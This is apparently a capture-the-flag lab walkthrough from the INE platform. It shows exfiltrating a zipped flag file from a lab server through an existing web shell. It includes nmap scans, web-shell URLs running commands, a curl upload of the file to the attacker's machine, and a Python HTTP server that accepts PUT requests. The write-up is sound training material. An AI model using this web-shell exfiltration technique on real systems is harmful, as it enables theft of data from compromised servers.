







# 🔬Data Exfiltration

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.

    * **`ip -br -c a`**
    * **`ping demo.ine.local`**

    ```shell
    root@INE:~# ip -br -c a
    eth1@if126466    UP             192.70.33.2/24 
    lo               UNKNOWN        127.0.0.1/8 
    ip_vti0@NONE     DOWN           
    eth0@if126463    UP             10.1.0.17/16
    
    root@INE:~# ping demo.ine.local
    PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
    64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
    ```
* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

        **`sudo nmap demo.ine.local`**

    ```shell
    root@INE:~# sudo nmap demo.ine.local
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE
    8000/tcp open  http-alt
    MAC Address: 02:42:C0:46:21:03 (Unknown)
    
    Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
    ```

    *   _Advanced scan_:

        **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**

        * **`-sC`** - for default scripts
        * **`-sV`** - probe open ports to determine service/versions info
        * **`-oA`** - output all 3 major formats in a directory

    ```shell
    root@INE:~# less nmap/dataexfiltration.nmap
    
    # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    MAC Address: 02:42:C0:46:21:03 (Unknown)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
    ```

    * A Python2 web server (Werkzeug) is running on open port **8000**.
* Check the response from a browser by visiting `http://demo.ine.local:8000/`



### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**



* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:



* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:



* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:
  * **`python -m SimpleHTTPServer 80`**
  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_



* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

    ```shell
    root@INE:~# which python
    /usr/bin/python
    
    root@INE:~# nano httpserver.py
    ```

    * Add the following code to the htttserver.py script:

    ```python
    #!/usr/bin/python
    import SimpleHTTPServer
    import BaseHTTPServer
    
    class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
        def do_PUT(self):
            print self.headers
            length = int(self.headers["Content-Length"])
            path = self.translate_path(self.path)
            with open(path, "wb") as dst:
                dst.write(self.rfile.read(length))


    if __name__ == '__main__':
        SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
    ```
    
    > _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._
    
    * Run the SimpleHTTP server using the script:
      * **`python httpserver.py 80`**
    * Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
      * Archive flag.zip was received by the server.



* Stop the running HTTP server and check the folder for the downloaded file.
  * **`ls -l`**



* Unzip the archive and retrieve the flag:
  * **`unzip flag.zip`**
  * **`cat flag/flag.txt`**


> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
